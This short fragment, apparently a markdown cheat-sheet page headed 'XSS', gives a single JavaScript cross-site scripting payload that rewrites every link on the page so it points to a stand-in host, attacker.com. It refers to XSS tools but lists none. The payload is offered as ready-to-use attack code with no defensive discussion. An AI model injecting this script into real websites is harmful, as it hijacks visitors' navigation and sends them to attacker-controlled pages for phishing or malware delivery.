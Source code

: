 # XSS

Few famous XSS tool



Payload to replace all links

'''

Array.from(document.getElementsByTagName("a")).forEach(function(i) {
  i.href = "https://attacker.com";
});

'''
